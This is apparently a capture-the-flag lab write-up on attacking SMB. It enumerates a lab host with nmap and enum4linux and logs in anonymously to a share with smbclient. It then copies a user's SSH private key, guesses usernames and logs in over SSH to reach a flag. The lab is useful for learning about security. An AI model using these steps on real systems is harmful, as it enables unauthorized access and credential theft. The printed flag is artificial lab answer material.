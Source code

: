 # Server Message Block

- [Overview](#overview)
- [Enumeration](#Enumeration)
  - [Steps For Enumeration](#steps-for-enumeration)
    - [NMAP](#nmap)
    - [Enum4Linux](#enum4linux)
- [Exploitation](#exploitation)
  - [SMB Client](#smbclinet)
  - [CLI](#cli)
  - [Pwnage](#Pwnage)
  - [Flag](#flag)

## Overview

- A client-server communication protocol used for sharing access to files, printers, serial ports and other network resources.
- Known as a response-request protocol.
  - Transmits multiple messages between the client and server to establish a connection.
- Clients connect over NetBIOS TCP/IP

### Enumeration

- The process of gathering info on a target to find potential attack.
  - Usernames, passwords, network info, hostnames, app data, services, etc.
- There are typically SMB share drives on a server that can be connected to for use of transferring files.
- Can also be a great starting point for discovering sensitive data.

#### Steps for enumeration

##### Nmap

1.  CLI

- Input:

  ```bash
  sudo nmap -p- -A -sV -vv -oA nmap/ 10.10.157.118
  ```

- Output:

  ```bash
  PORT    STATE SERVICE     VERSION
  22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
  | ssh-hostkey:
  |   2048 91:df:5c:7c:26:22:6e:90:23:a7:7d:fa:5c:e1:c2:52 (RSA)
  |   256 86:57:f5:2a:f7:86:9c:cf:02:c1:ac:bc:34:90:6b:01 (ECDSA)
  |_  256 81:e3:cc:e7:c9:3c:75:d7:fb:e0:86:a0:01:41:77:81 (ED25519)
  139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
  445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
  No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
  Host script results:
  |_clock-skew: mean: 0s, deviation: 1s, median: -1s
  |\_nbstat: NetBIOS name: POLOSMB, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
  | smb-os-discovery:
  | OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
  | Computer name: polosmb
  | NetBIOS computer name: POLOSMB\x00
  | Domain name: \x00
  | FQDN: polosmb
  |_ System time: 2021-04-27T01:41:41+00:00
  | smb-security-mode:
  | account*used: guest
  | authentication_level: user
  | challenge_response: supported
  |* message*signing: disabled (dangerous, but default)
  | smb2-security-mode:
  | 2.02:
  |* Message signing enabled but not required
  | smb2-time:
  | date: 2021-04-27T01:41:40
  |\_ start_date: N/A
  ```

  - There are 3 open ports
    - **22**: ssh
    - **139/443** : smb
  - OS Detected
    - **OS: Windows 6.1**

##### Enum4Linux

Enumerate SMB shares on both win and Linux systems

- **Usage:** enum4linux [options] ip

| TAG  | FUNCTION                                    |
| ---- | ------------------------------------------- |
| -U   | get userlist                                |
| -M   | get machine list                            |
| -N   | get namelist dump (different from -U and-M) |
| -S   | get sharelist                               |
| -P   | get password policy information             |
| -G   | get group and member list                   |
| -A   | all of the above (full basic enumeration)   |

1. CLI
   Input

   ```bash
   $ enum4linux -A 10.10.157.118
   ```

   Output: Notice, the shares that are listed

   ```bash
   [+] Attempting to map shares on 10.10.157.118
   //10.10.157.118/netlogon        [E] Can't understand response:
   tree connect failed: NT_STATUS_BAD_NETWORK_NAME
   //10.10.157.118/profiles        Mapping: OK, Listing: OK
   //10.10.157.118/print$  Mapping: DENIED, Listing: N/A
   //10.10.157.118/IPC$    [E] Can't understand response:
   NT_STATUS_OBJECT_NAME_NOT_FOUND listing \*
   ```

   - **/profiles** is an available share

   The name of the workgroup here is simply WORKGROUP

   ```bash
   [+] Got domain/workgroup name: WORKGROUP
   ```

   OS information can be gathered

   ```bash
   =======================================
   |    OS information on 10.10.157.118    |
   =======================================
   [+] Got OS info for 10.10.157.118 from smbclient:
   [+] Got OS info for 10.10.157.118 from srvinfo:
         POLOSMB        Wk Sv PrQ Unx NT SNT polosmb server (Samba, Ubuntu)
         platform_id     :       500
         os version      :       6.1
         server type     :       0x809a03
   ```

   - **Name**: POLOSMB
   - **OS Version:** 6.1

### Exploitation

Although there are CVE's available that will allow one to gain RCE, we are more likely to encounter a situation where there's a misconfiguration on the system.

With this machine, we will be exploiting anonymous SMB share access. A common misconfiguration that can allow us to gain info that will lead to a shell.

Since we are trying to access an SMB share, we need a client to access resources on servers.

##### SMBClinet

We will use this too because it's part of the default samba suite.

- **Usage:** smbclient //IP/SHARE
  -U [name] : to specify the user
  -p [port] : to specify the port

##### CLI

- Input:

  ```bash
  $ smbclient //10.10.157.118/profiles
  ```

- Output:
  As a result, we were able to **log in anonymously** and navigate through the profiles share. Using the ls command, we can see a users **/home directory**.

- Findings:
  - **Work From Home.txt**: A txt file with a message from IT containing work **from home information** and the **users First and Last name**.
  - **.ssh/id_rsa**: Copied to my local machine. Chmod to 600.

##### Pwnage

- Created a wordlist for the users potential ssh login

```txt
- jc
- johncactus
- john.cactus jc
- jcactus
- j.cactus
- john
- cactus
```

- Command

```bash
ssh -i id_rsa cactus@10.10.157.118
```

##### Flag

```bash
THM{smb_is_fun_eh?}
```

